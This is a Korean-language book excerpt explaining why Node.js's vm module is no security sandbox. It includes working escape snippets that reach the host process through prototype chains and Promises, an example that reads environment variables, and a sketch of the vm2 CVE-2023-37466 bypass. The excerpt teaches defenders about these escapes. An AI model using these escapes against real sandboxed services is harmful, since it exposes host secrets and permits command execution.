

## Table of Contents

> 이 글은 현재 집필 중인 [Node.js Deep Dive](https://yceffort.kr/2026/02/nodejs-deep-dive-beta-reader)의 5.2장 일부(5.2.1 ~ 5.2.3)를 미리 공개한 것입니다. 베타 리더를 모집하고 있으니 관심 있으신 분은 링크를 참고해주시면 감사하겠습니다.

## 5.2 vm 모듈의 함정: 샌드박스가 아닌 이유

신뢰할 수 없는 코드를 실행해야 하는 상황은 생각보다 자주 발생한다. 사용자가 입력한 수식을 계산하거나, 플러그인 시스템에서 서드파티 스크립트를 실행하거나, API 테스트 도구에서 pre-request 스크립트를 처리하는 경우가 그렇다. 이런 상황에서 많은 Node.js 개발자가 가장 먼저 떠올리는 것이 `vm` 모듈이다. `vm.createContext()`로 별도의 컨텍스트를 만들고 `vm.runInNewContext()`로 그 안에서 코드를 실행하면, 호스트 환경과 완전히 격리된 샌드박스가 만들어진다고 생각하기 쉽다. 실제로 npm에는 `vm` 모듈 위에 "안전한 코드 실행"을 표방하는 패키지가 여럿 존재했다. `vm2`는 월 1,600만 회 이상 다운로드될 정도로 널리 사용되었고, `safe-eval`은 이름 자체가 "안전한 eval"이었다.

그러나 Node.js 공식 문서는 명확하게 경고한다. "The node:vm module is not a security mechanism. Do not use it to run untrusted code."(vm 모듈은 보안 메커니즘이 아니다. 신뢰할 수 없는 코드를 실행하는 데 사용하지 마라.)[^1] `vm` 모듈이 제공하는 컨텍스트 분리는 별도의 전역 객체를 가진 V8 컨텍스트를 만들 뿐, 프로토타입 체인이나 에러 객체를 통해 호스트 환경에 접근하는 경로를 차단하지 못한다. `vm2`는 이 근본적 한계를 보안 래퍼로 극복하려 했지만, CVSS 10.0 점의 치명적 취약점이 반복적으로 발견되었고, 결국 2023년 7월 메인테이너가 "이 문제는 근본적으로 해결할 수 없다"고 선언하며 프로젝트를 중단했다.[^2] 이 장에서는 `vm` 모듈의 설계 목적과 실제 보호 범위를 분석하고, 구체적인 탈출 기법을 시연한 뒤, `vm` 기반 샌드박스가 실패한 역사적 사례를 살펴본다. 그리고 신뢰할 수 없는 코드를 정말로 격리해야 할 때 어떤 대안을 선택해야 하는지 다룬다.

## 5.2.1 vm 모듈의 설계 목적

`vm` 모듈은 V8 가상 머신의 컨텍스트를 다루는 도구다. JavaScript 코드를 별도의 실행 컨텍스트에서 컴파일하고 실행할 수 있게 해주는 이 모듈은 종종 "샌드박스"로 오해받지만, 실제 설계 목적은 전혀 다르다. 이 절에서는 `vm` 모듈의 핵심 API가 실제로 무엇을 하는지, 그리고 공식 문서가 왜 이것을 보안 도구로 사용하지 말라고 경고하는지 살펴본다.

### 5.2.1.1 기본 API와 동작 원리

Node.js 공식 문서는 `vm` 모듈을 "enables compiling and running code within V8 Virtual Machine contexts"(V8 가상 머신 컨텍스트 내에서 코드를 컴파일하고 실행할 수 있게 해준다)라고 설명한다.[^1] 핵심 단어는 "contexts"다. V8 Embedder's Guide는 컨텍스트를 다음과 같이 정의한다. "In V8, a context is an execution environment that allows separate, unrelated, JavaScript applications to run in a single instance of V8."(V8에서 컨텍스트란 별도의, 서로 관련 없는 JavaScript 애플리케이션이 하나의 V8 인스턴스 안에서 실행될 수 있게 하는 실행 환경이다.)[^3] 즉 컨텍스트는 독립적인 전역 스코프를 가진 실행 공간이다. 브라우저에서 각 `<iframe>`이 서로 다른 전역 객체를 가지는 것과 비슷한 개념이다.

`vm` 모듈의 핵심 API 세 가지를 살펴보자.

```javascript
import vm from 'node:vm';

// 1) vm.runInNewContext: 새 컨텍스트를 만들어 코드 실행
const result = vm.runInNewContext('x + y', { x: 10, y: 20 });
console.log(result); // 30

// 2) vm.createContext + vm.runInContext: 컨텍스트를 재사용
const context = vm.createContext({ counter: 0 });
vm.runInContext('counter += 1', context);
vm.runInContext('counter += 1', context);
console.log(context.counter); // 2

// 3) vm.Script: 코드를 미리 컴파일해두고 반복 실행
const script = new vm.Script('value * 2');
const ctx1 = vm.createContext({ value: 5 });
const ctx2 = vm.createContext({ value: 100 });
console.log(script.runInContext(ctx1)); // 10
console.log(script.runInContext(ctx2)); // 200
```

> 예제 5.2.1 vm 모듈의 기본 API

`vm.runInNewContext()`는 컨텍스트 생성과 코드 실행을 한 번에 처리하는 단축 메서드다. 두 번째 인자로 전달한 객체가 코드 실행 시 전역 객체 역할을 한다. `vm.createContext()`는 전달받은 객체를 "컨텍스트화(contextify)"하여 V8 컨텍스트와 연결하고, 이후 `vm.runInContext()`로 그 컨텍스트 안에서 반복적으로 코드를 실행할 수 있게 한다. `vm.Script`는 코드를 미리 바이트코드로 컴파일해두어, 여러 컨텍스트에서 반복 실행할 때 파싱 비용을 절약한다.

여기서 중요한 점은 컨텍스트 내부의 코드가 호스트의 전역 변수에 접근할 수 없다는 것이다.

```javascript
import vm from 'node:vm';

globalThis.secret = '호스트의 비밀';

const result = vm.runInNewContext('typeof secret');

console.log(result);            // "undefined"
console.log(globalThis.secret); // "호스트의 비밀" (변경되지 않음)
```

> 예제 5.2.2 컨텍스트 내부에서 호스트 전역 변수에 접근 불가

호스트에서 `globalThis.secret`을 설정했지만, `vm.runInNewContext()` 안에서 `secret`은 `undefined`다. 컨텍스트가 별도의 전역 객체를 가지기 때문이다. 이 동작만 보면 완벽한 격리처럼 보인다. 그러나 이것이 "샌드박스"라고 결론 내리기에는 결정적인 빈틈이 있다. 공식 문서의 경고를 먼저 살펴본 뒤, 그 빈틈이 무엇인지 5.2.2절에서 구체적으로 분석한다.

### 5.2.1.2 공식 문서의 경고: "not a security mechanism"

Node.js 공식 문서는 `vm` 모듈 페이지의 첫머리에 다음과 같은 경고를 배치한다.

> "The node:vm module is not a security mechanism. Do not use it to run untrusted code."
> (vm 모듈은 보안 메커니즘이 아니다. 신뢰할 수 없는 코드를 실행하는 데 사용하지 마라.)[^1]

이 경고가 문서의 첫 문단에 등장한다는 사실 자체가 의미심장하다. 많은 개발자가 이 모듈을 보안 목적으로 오용해왔다는 반증이기도 하다.

흥미로운 점은 현재 공식 문서가 "sandbox"라는 용어를 전혀 사용하지 않는다는 것이다. 대신 "context"와 "contextified object"라는 표현만 사용한다. `vm.createContext()`의 반환값도 "sandbox"가 아니라 "contextified object"다. 이 용어 선택은 의도적이다. `vm` 모듈이 제공하는 것은 보안 경계(security boundary)가 아니라 실행 컨텍스트의 분리(context separation)이기 때문이다.

그렇다면 왜 개발자들은 `vm` 모듈을 샌드박스로 오해할까? 두 가지 이유가 있다.

첫째, `vm.runInNewContext()`의 동작이 표면적으로 완벽한 격리처럼 보인다. 앞서 예제 5.2.2에서 확인했듯이, 호스트의 전역 변수에 접근할 수 없고, 코드 실행 결과가 호스트 환경에 영향을 주지 않는다. `require`나 `process` 같은 Node.js 내장 객체도 컨텍스트에 명시적으로 전달하지 않으면 사용할 수 없다.

둘째, 초기 Node.js 생태계에서 `vm` 모듈의 API 이름 자체가 혼란을 유발했다. `runInNewContext`의 "new context"가 "새로운 격리 환경"으로 읽히기 쉽고, 실제로 v0.10부터 약 10년간 공식 API의 파라미터 이름이 `sandbox`였다[^4]. 2019년 12월 Rich Trott의 PR #31057에서 보안적 오해를 방지하기 위해 `contextObject`로 변경되었지만, 이미 "vm = 샌드박스"라는 잘못된 등식이 개발자들 사이에 깊이 자리 잡은 뒤였다.

그러나 컨텍스트 분리와 보안 격리는 완전히 다른 개념이다. 컨텍스트 분리는 별도의 전역 스코프를 제공할 뿐, 프로세스 수준의 리소스(파일 시스템, 네트워크, 메모리)에 대한 접근을 차단하지 않는다. 컨텍스트 내부의 코드가 호스트 객체의 프로토타입 체인을 타고 올라가면, 컨텍스트 밖의 `Function` 생성자에 도달할 수 있다. 이 경로가 열려 있는 한, 아무리 전역 변수를 차단해도 호스트 환경 전체에 접근할 수 있다. 다음 절에서 이 탈출 경로를 구체적으로 분석한다.

## 5.2.2 컨텍스트 격리가 보호하는 것과 보호하지 못하는 것

5.2.1절에서 `vm.runInNewContext()`가 호스트의 전역 변수를 차단하는 모습을 확인했다. 이 절에서는 컨텍스트 격리가 정확히 어디까지 보호하고, 어디서부터 무너지는지 경계를 명확히 한다.

### 5.2.2.1 V8 컨텍스트와 글로벌 객체 분리

`vm.createContext()`가 만드는 V8 컨텍스트는 독립적인 전역 객체를 가진다. 이 전역 객체에는 ECMAScript 표준이 정의하는 빌트인(`Object`, `Array`, `Promise`, `Math` 등)이 새로 생성되어 들어가지만, Node.js 고유의 전역 객체(`process`, `require`, `Buffer`, `__dirname` 등)는 포함되지 않는다.

```javascript
import vm from 'node:vm';

const context = vm.createContext({});

// ECMAScript 빌트인은 존재한다
console.log(vm.runInContext('typeof Object', context));  // "function"
console.log(vm.runInContext('typeof Array', context));   // "function"
console.log(vm.runInContext('typeof Promise', context)); // "function"

// Node.js 전역 객체는 존재하지 않는다
console.log(vm.runInContext('typeof process', context)); // "undefined"
console.log(vm.runInContext('typeof require', context)); // "undefined"
console.log(vm.runInContext('typeof Buffer', context));  // "undefined"
```

> 예제 5.2.3 V8 컨텍스트의 빌트인과 Node.js 전역 객체

여기서 중요한 점이 하나 있다. 컨텍스트 안의 `Object`, `Function` 등 빌트인은 호스트의 것이 아니라 **컨텍스트 자체에 새로 생성된 독립적인 복사본** 이다.

```javascript
const contextFunction = vm.runInContext('Function', context);
console.log(contextFunction === Function); // false
```

컨텍스트의 `Function`과 호스트의 `Function`은 서로 다른 객체다. 컨텍스트의 `Function` 생성자로 만든 함수는 컨텍스트의 전역 스코프에서 실행되므로, `process`나 `require` 같은 호스트 전역에 접근할 수 없다. 이 분리가 컨텍스트 격리의 핵심이다.

이 결과만 보면 격리가 잘 작동하는 것 같다. `process`에 접근할 수 없으니 `process.exit()`으로 프로세스를 종료할 수 없고, `require`가 없으니 `fs` 모듈을 불러올 수도 없다. 그러나 이 보호에는 결정적인 전제가 있다. 컨텍스트에 호스트에서 생성한 객체를 전달하지 않았을 때만 성립한다는 것이다.

### 5.2.2.2 프로토타입 체인이 열어두는 통로

실제 애플리케이션에서 컨텍스트에 아무것도 전달하지 않고 코드를 실행하는 경우는 드물다. 사용자 코드에 데이터를 넘기거나, 제한된 API를 제공하기 위해 객체를 컨텍스트에 넣어야 한다. 문제는 호스트에서 생성한 객체를 컨텍스트에 전달하는 순간, 그 객체의 프로토타입 체인이 호스트 환경으로 돌아가는 다리 역할을 한다는 것이다.

JavaScript에서 모든 일반 객체는 프로토타입 체인을 가진다. `{}`로 만든 객체의 프로토타입은 `Object.prototype`이고, `Object.prototype.constructor`는 `Object` 함수를 가리킨다. 그리고 `Object`는 함수이므로 `Object.constructor`는 `Function` 생성자를 가리킨다. 5.2.2.1절에서 확인한 것처럼, 컨텍스트 자체의 `Function`은 호스트의 `Function`과 다른 객체다. 그런데 호스트에서 만든 객체의 프로토타입 체인을 타고 올라가면, 도달하는 `Function`은 컨텍스트의 것이 아니라 **호스트의 것** 이다.

```javascript
import vm from 'node:vm';

const sandbox = { data: { value: 42 } };
const context = vm.createContext(sandbox);

// 호스트 객체의 프로토타입 체인은 호스트의 Function에 도달한다
const hostFunction = vm.runInContext(
  'data.constructor.constructor',
  context
);
console.log(hostFunction === Function); // true — 호스트의 Function!
```

> 예제 5.2.4 호스트 객체의 프로토타입 체인이 호스트 Function에 도달하는 증거

`data`는 호스트에서 `{ value: 42 }`로 생성한 객체다. 이 객체의 `constructor`는 호스트의 `Object`이고, `Object.constructor`는 호스트의 `Function`이다. 호스트의 `Function` 생성자로 만든 함수는 호스트의 전역 스코프에서 실행되므로, `process`에 접근할 수 있다. 다음 코드로 전체 탈출 과정을 시연해보자.

```javascript
const escaped = vm.runInContext(`
  const HostObject = data.constructor;           // 호스트의 Object
  const HostFunction = HostObject.constructor;   // 호스트의 Function

  // 호스트 컨텍스트에서 실행되는 함수를 생성
  const getProcess = HostFunction('return process');
  const hostProcess = getProcess();

  ({
    pid: hostProcess.pid,
    version: hostProcess.version,
    platform: hostProcess.platform,
  });
`, context);

console.log(escaped);
// { pid: <현재 PID>, version: 'v24.13.0', platform: 'darwin' }
```

호스트에서 `{ value: 42 }`라는 평범한 객체를 전달했을 뿐인데, 컨텍스트 내부의 코드가 `process.pid`, `process.version`, `process.platform`에 접근하는 데 성공했다. `process`를 컨텍스트에 명시적으로 전달한 적이 없는데도 말이다.


> 그림 5.2.1 프로토타입 체인을 이용한 샌드박스 탈출 경로

`process`에 접근할 수 있다면 피해는 무제한이다. `process.exit()`으로 프로세스를 종료하거나, `process.env`로 환경 변수(DB 비밀번호, API 키 등)를 읽거나, CJS 환경에서는 `process.mainModule.require('child_process').execSync()`로 임의의 시스템 명령을 실행할 수 있다. (`process.mainModule`은 v14.0.0부터 deprecated이지만, CJS 환경에서는 여전히 접근 가능하다.)

"그렇다면 호스트 객체를 전달하지 않으면 안전한 것 아닌가?"라고 생각할 수 있다. 실제로 호스트 객체를 전달하지 않으면 이 경로는 차단된다.

```javascript
import vm from 'node:vm';

// 프로토타입 없는 샌드박스, 호스트 객체 미전달
const sandbox = Object.create(null);
const context = vm.createContext(sandbox);

try {
  // this.constructor.constructor는 존재하지만 컨텍스트 자체의 Function이다
  // 컨텍스트의 Function으로 만든 코드는 process에 접근 불가
  vm.runInContext(
    'this.constructor.constructor("return process")()',
    context
  );
} catch (err) {
  console.log('탈출 차단:', err.message);
  // ReferenceError: process is not defined
}

// 그러나 호스트 객체를 하나라도 전달하면 즉시 탈출 가능
const sandbox2 = Object.create(null);
sandbox2.config = { timeout: 5000 }; // 호스트에서 생성한 평범한 객체
const context2 = vm.createContext(sandbox2);

const proc = vm.runInContext(
  'config.constructor.constructor("return process")()',
  context2
);
console.log('탈출 성공:', proc.version); // v24.13.0
```

> 예제 5.2.5 호스트 객체 전달 유무에 따른 탈출 가능 여부

호스트 객체를 전달하지 않으면 `this.constructor.constructor`는 컨텍스트 자체의 `Function`이므로 `process`에 접근할 수 없어 `ReferenceError`가 발생한다. 그러나 `{ timeout: 5000 }`이라는 단순한 설정 객체 하나만 전달해도 즉시 탈출이 가능하다. 현실적으로 아무런 데이터도 전달하지 않고 의미 있는 코드를 실행하는 것은 불가능에 가깝다. 이것이 `vm` 모듈의 컨텍스트 격리가 보안 도구로 사용될 수 없는 근본적인 이유다. 프로토타입 체인은 가장 기본적인 탈출 경로일 뿐이며, 5.2.3절에서는 `Error.prepareStackTrace`와 `Promise` 콜백 등 더 정교한 공격 벡터(attack vector, 공격자가 시스템에 침투하는 경로)를 살펴본다.

## 5.2.3 샌드박스 탈출: 공격 벡터 분석

5.2.2절에서 프로토타입 체인을 통해 호스트의 `process`에 접근하는 기본 원리를 확인했다. 이 절에서는 실제로 어떤 경로들이 존재하고, 각 경로가 어떻게 악용될 수 있는지 분석한다. `vm` 모듈의 단순한 컨텍스트 격리뿐 아니라, `vm2`처럼 보안 래퍼를 추가한 경우에도 뚫린 기법까지 다룬다.

### 5.2.3.1 constructor를 이용한 호스트 Function 획득

5.2.2.2절에서 `data.constructor.constructor`를 통한 탈출을 시연했다. 여기서 강조할 점은 진입점이 `data` 하나가 아니라는 것이다. 호스트에서 생성한 **어떤 값** 이든 컨텍스트에 전달하는 순간 탈출 경로가 된다.

```javascript
import vm from 'node:vm';

const sandbox = Object.create(null);

// 어떤 타입이든 호스트에서 생성한 값은 호스트의 Function으로 연결된다
sandbox.callback = (msg) => console.log(msg); // 함수
sandbox.items = [1, 2, 3];                    // 배열
sandbox.pattern = /test/;                     // 정규식
sandbox.promise = Promise.resolve(42);         // Promise

const context = vm.createContext(sandbox);

const escape = (expr) =>
  vm.runInContext(`${expr}.constructor('return process')().version`, context);

console.log('함수 경유:', escape('callback'));        // v24.13.0
console.log('배열 경유:', escape('items.constructor')); // v24.13.0
console.log('정규식 경유:', escape('pattern.constructor')); // v24.13.0
console.log('Promise 경유:', escape('promise.constructor')); // v24.13.0
```

> 예제 5.2.6 호스트에서 생성한 모든 객체가 탈출 경로가 된다

콜백 함수는 `callback.constructor`가 곧 호스트의 `Function`이므로 체인이 한 단계 짧다. 배열, 정규식, Promise 등은 각각의 생성자(`Array`, `RegExp`, `Promise`)를 거쳐 `Function`에 도달한다. 어떤 경로든 결과는 같다. 호스트의 `Function` 생성자를 손에 넣으면 `Function('return process')()`로 `process`에 접근하고, 거기서부터 시스템 전체를 장악할 수 있다.

`process` 객체에 접근한 공격자가 실제로 할 수 있는 일을 정리하면 다음과 같다.

```javascript
import vm from 'node:vm';

const sandbox = { data: {} };
const context = vm.createContext(sandbox);

const stolen = vm.runInContext(`
  const F = data.constructor.constructor;
  const proc = F('return process')();

  ({
    // 1) 환경 변수 탈취: DB 비밀번호, API 키 등
    env: {
      HOME: proc.env.HOME,
      USER: proc.env.USER,
      SHELL: proc.env.SHELL,
    },
    // 2) 프로세스 정보
    pid: proc.pid,
    cwd: proc.cwd(),
    argv: proc.argv,
    // 3) process.exit()으로 서비스 중단도 가능
    // 4) process.mainModule?.require로 모듈 로드도 가능 (CJS 환경)
  });
`, context);

console.log(stolen);
```

> 예제 5.2.7 process 접근 후 실제 피해 범위

> `process.mainModule.require`가 항상 작동하는 것은 아니다. ESM 환경에서는 `process.mainModule`이 `undefined`이므로 이 경로로 `require`에 접근할 수 없다. 그러나 `process.env`를 통한 환경 변수 탈취, `process.exit()`을 통한 서비스 중단, `process.kill()`을 통한 프로세스 종료 등은 모듈 시스템과 무관하게 작동한다. CJS 환경이라면 `process.mainModule.require('child_process').execSync()`로 임의의 시스템 명령을 실행할 수 있어 피해가 더 크다.

### 5.2.3.2 Error.prepareStackTrace를 이용한 탈출

프로토타입 체인을 통한 탈출이 `vm` 모듈의 가장 기본적인 취약점이라면, `Error.prepareStackTrace`는 `vm2`같은 보안 래퍼까지 무력화한 고급 기법이다. 이 기법은 CVE-2022-36067(코드명 "SandBreak", CVSS 10.0)로 등록되었고, `vm2`의 종말을 앞당긴 결정적 계기가 되었다.[^5]

V8 엔진은 `Error.prepareStackTrace`라는 비표준 API를 제공한다. 에러 객체의 `stack` 속성에 접근할 때 호출되는 콜백으로, 원래 목적은 스택 트레이스의 형식을 커스터마이징하는 것이다.

```javascript
// Error.prepareStackTrace의 기본 동작
Error.prepareStackTrace = (error, callSites) => {
  // callSites: CallSite 객체의 배열
  // 각 CallSite는 호출 스택의 한 프레임을 나타낸다
  return callSites.map(site => site.getFunctionName()).join('\n');
};
```

문제는 이 콜백이 **컨텍스트 경계를 넘어 호출된다** 는 것이다. `vm2`는 프로토타입 체인 탈출을 막기 위해 모든 객체를 `Proxy`로 래핑하여 `constructor` 접근을 차단했다. 그러나 `vm2`는 `Proxy`와 원본 객체의 매핑을 `WeakMap`에 저장하고 있었고, `WeakMap.prototype.has()`와 `WeakMap.prototype.get()` 등의 메서드를 래핑하지 않은 빈틈이 있었다. 공격자는 래핑되지 않은 `WeakMap` 메서드를 통해 `Proxy` 뒤의 원본 호스트 객체에 접근할 수 있었고, 이를 이용해 `prepareStackTrace`를 오버라이드하여 `Proxy` 래핑을 거치지 않는 호스트 렐름(realm)의 `CallSite` 객체에 접근할 수 있었다. `CallSite` 객체를 통해 호스트 렐름의 함수 참조를 획득하면, `Proxy`가 아무리 `constructor`를 차단해도 우회할 수 있다.

SandBreak 공격의 핵심을 개념적으로 정리하면 다음과 같다.



> 그림 5.2.2 SandBreak(CVE-2022-36067) 공격 원리

이 공격이 특히 위험한 이유는 `vm2`의 보안 모델 자체를 근본적으로 무효화했기 때문이다. `vm2`는 `Proxy`를 사용하여 샌드박스 내부의 모든 객체 접근을 가로채고, 위험한 속성(`constructor`, `__proto__` 등)에 대한 접근을 차단하는 방식으로 보안을 구현했다. 그러나 `Error.prepareStackTrace`는 V8 엔진 내부에서 직접 호출되므로, `Proxy` 트랩을 우회한다. 방어 레이어가 아무리 정교해도, V8 엔진 수준에서 호스트 객체가 노출되는 경로가 있으면 무의미하다.

### 5.2.3.3 Proxy와 Promise 콜백을 이용한 우회

SandBreak가 패치된 이후에도 `vm2`에는 비슷한 유형의 취약점이 연달아 발견되었다. 공통 패턴은 **비동기 콜백이 호스트 렐름에서 실행될 때 새니타이징(sanitization, 위험 요소 제거)을 우회하는 것** 이다.

`vm2`는 `Promise`의 `.then()`과 `.catch()` 콜백을 래핑하여 샌드박스 내부의 코드가 호스트 렐름의 객체에 접근하지 못하도록 했다. 그러나 `vm2`가 자체적으로 만든 `Promise` 래퍼만 새니타이징할 뿐, `async` 함수가 반환하는 네이티브 `Promise`의 콜백까지는 새니타이징하지 못했다. CVE-2023-37466(CVSS 10.0)은 바로 이 틈을 파고든 취약점이다.[^6]

```javascript
// CVE-2023-37466의 개념적 재현 (vm2 내부에서 실행되는 공격 코드)

// 1) 일반 Promise: vm2가 Proxy로 래핑하여 콜백을 새니타이징
Promise.resolve().then(() => {
  // 이 콜백은 vm2의 Proxy를 거쳐 실행됨
  // → constructor 등 위험한 속성 접근이 차단됨
});

// 2) async 함수의 반환값: vm2의 래핑을 우회
async function exploit() { return 1; }

exploit().then(() => {
  // async가 반환하는 Promise는 vm2의 래퍼가 아닌 호스트의 네이티브 Promise
  // → .then() 콜백이 새니타이징되지 않은 채 호스트 렐름에서 실행됨
  // → 호스트 객체에 접근 가능 → 샌드박스 탈출
});
```

이 문제는 `vm2`에 국한되지 않는다. 원본 `vm` 모듈에서도 호스트의 `Promise`를 컨텍스트에 전달하면 동일한 원리로 탈출이 가능하다.

```javascript
import vm from 'node:vm';

const sandbox = Object.create(null);
sandbox.hostPromise = Promise.resolve(42);
const context = vm.createContext(sandbox);

// 호스트 Promise의 constructor → 호스트 Function → 탈출
const version = vm.runInContext(`
  const HostFunction = hostPromise.constructor.constructor;
  HostFunction('return process')().version;
`, context);
console.log('Promise 경유 탈출:', version); // v24.13.0
```

> 예제 5.2.8 호스트 Promise를 통한 탈출

결국 세 가지 공격 벡터 모두 같은 근본 원인을 공유한다. `vm` 모듈의 컨텍스트 격리는 전역 스코프만 분리할 뿐, **객체 간 참조 관계까지 끊지 못한다.** 호스트에서 생성한 객체를 컨텍스트에 전달하는 한, 프로토타입 체인이든 에러 콜백이든 `Promise` 핸들러든, 호스트 렐름으로 돌아가는 경로는 반드시 존재한다. 이 문제는 V8 컨텍스트의 설계 자체에 내재된 것이므로, `vm` 모듈 위에 아무리 정교한 래퍼를 추가해도 근본적으로 해결할 수 없다.

---

> 이 글은 현재 집필 중인 [Node.js Deep Dive](https://yceffort.kr/2026/02/nodejs-deep-dive-beta-reader)의 5.2장 일부를 미리 공개한 것입니다. 5.2.4절 이후에서는 `vm2`의 CVE 연대기와 프로젝트 중단 과정, `vm` 모듈의 올바른 사용처(Node.js REPL, Jest의 테스트 격리), 그리고 신뢰할 수 없는 코드를 격리하기 위한 실질적 대안(`isolated-vm`, Worker Threads, 컨테이너 + Permission Model)을 다루고 있습니다. 베타 리더를 모집하고 있으니 관심 있으신 분은 링크를 참고해주시면 감사하겠습니다.

---

[^1]: Node.js Documentation: VM (executing JavaScript) - https://nodejs.org/docs/latest/api/vm.html

[^2]: GitHub Advisory: vm2 CVE-2023-37903 - https://github.com/advisories/GHSA-g644-9gfx-q4q4

[^3]: V8 Embedder's Guide: Contexts - https://v8.dev/docs/embed#contexts

[^4]: Node.js PR #31057: Remove "sandbox" from vm documentation - https://github.com/nodejs/node/pull/31057

[^5]: Oxeye Security: SandBreak (CVE-2022-36067) - https://www.oxeye.io/resources/vm2-sandbreak-vulnerability-cve-2022-36067

[^6]: GitHub Advisory: vm2 CVE-2023-37466 - https://github.com/advisories/GHSA-cchq-frgv-rjh5
